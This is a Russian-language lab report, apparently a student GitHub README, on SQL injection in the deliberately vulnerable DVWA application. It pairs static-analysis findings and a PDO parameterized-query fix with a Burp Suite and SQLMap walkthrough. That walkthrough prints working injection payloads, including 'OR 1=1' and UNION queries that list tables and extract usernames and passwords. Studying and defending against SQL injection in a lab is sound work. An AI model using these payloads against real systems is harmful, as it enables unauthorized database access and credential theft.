 # Использование статического анализатора кода для обеспечения безопасности

## Обнаружен участок кода, подверженный инъекции SQL кода:

```php
$getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid );
```
## Результат анализа статическим анализатором кода:

![image](https://github.com/halissha/rbpzos4_static/blob/main/img.png)

## Основные проблемы:
### Пользовательские данные подставляются в запрос без плейсхолдеров или экранирования

```
[MITRE, CWE-89] - Improper Neutralization of Special Elements used in an SQL Command
```

### Пользовательские данные не проходят проверку перед выполнением запроса

```
[MITRE, CWE-20] - Improper Input Validation
```

Вследствие игнорирования требований безопасности мошенник может сконструировать вредоносный запрос в базу данных.
Это может быть чревато потерей, модификацией, утечкой данных, или получением мошенником доступа к оболочке.

## Устранение угроз безопасности:

- Воспользуемся PDO для конструирования параметризованного запроса (PDO - расширение для PHP, предоставляющее разработчику универсальный интерфейс для доступа к различным базам данных.)

```php
 $statement = $pdo->prepare('SELECT first_name, last_name FROM users WHERE user_id = :id;');
 $statement->bindParam("id", $id, PDO::PARAM_INT);
 $statement->execute();
```

- Обеспечим дополнительную валидацию переменной "id" по длине

```php
 if (strlen((string)$id) == 3) {
    ...
}
```
## Запахи кода:
### Файл должен содержать пустую строку в конце

Некоторые инструменты работают лучше когда файл содержит пустую строку в конце

### Убрать закрывающий тег ?> в конце файла

Согласно стандарту PSR2 закрывающий тег не требуется использовать в файле, содержащем только php-код

### Убрать пустое место после открывающей скобки и перед закрывающей скобкой

Общий принцип следование стандартам оформления кода позволяет командной разработке быть эффективнее, а коду быть более читаемым

## Результат повышения безопасности формы:

![image](https://github.com/halissha/rbpzos4_static/blob/main/image.png)

## Использование Burp Suite для нахождения уязвимости
Настроим прослушивание прокси в Burp Suite для возможности перехвата запросов:
![image](https://github.com/halissha/rbpzos4_static/blob/main/proxy.jpg)

Аналогично настроим прокси в ручном режиме в браузере:
![image](https://github.com/halissha/rbpzos4_static/blob/main/proxy_browser.jpg)

## Перехват запросов из DVWA SQL Injection
Попробуем перехватить запрос с атакуемой страницы с помощью Interception:
![image](https://github.com/halissha/rbpzos4_static/blob/main/intercept.jpg)

## Обнаружение уязвимости с помощью Burp Suite
Проведем следующую инъекцию и получим всех пользователей, с помощью OR легко проходим валидацию:
```php
1 OR 1=1#
1+OR+1%3d1%23
```
Получим всех пользователей в ответе:

![image](https://github.com/halissha/rbpzos4_static/blob/main/users.jpg)

Теперь проведем инъекцию на обнаружение имен таблиц:
```php
1 UNION SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES#
1+UNION+SELECT+1,TABLE_NAME+FROM+INFORMATION.SCHEMA.TABLES%23
```
Получим имена всех таблиц, в ответе можно заметить важную таблицу users:
![image](https://github.com/halissha/rbpzos4_static/blob/main/user_table.jpg)

Следующим шагом попробуем вытащить логины и пароли из таблицы users с помощью следующей инъекции:
```php
1 UNION SELECT user, password FROM users#
1+UNION+SELECT+user,+password+FROM+users%23
```
В отвече получим логины и пароли пользователей системы:
![image](https://github.com/halissha/rbpzos4_static/blob/main/logins_passwords.jpg)

## Обнаружение уязвимости с помощью SQLMap

Воспользуемся утилитой SQLMap для выявления уязвимых параметров запроса. Утилита выявила уязвимости с типами:
```php
boolean-based blind
time-based blind
```
![image](https://github.com/halissha/rbpzos4_static/blob/main/table_vulns.jpg)

Далее при помощи утилиты получим список имеющихся баз данных:
![image](https://github.com/halissha/rbpzos4_static/blob/main/dbases.jpg)

Нашли базу данных dvwa, просмотрим ее таблицы:
![image](https://github.com/halissha/rbpzos4_static/blob/main/tables.jpg)

Нашли таблицу users, просмотрим её колонки:
![image](https://github.com/halissha/rbpzos4_static/blob/main/cols.jpg)

Удалось с помощью утилиты sqlmap определить пароли пользователей по имеющимся в таблице хешам:
![image](https://github.com/halissha/rbpzos4_static/blob/main/pass.jpg)











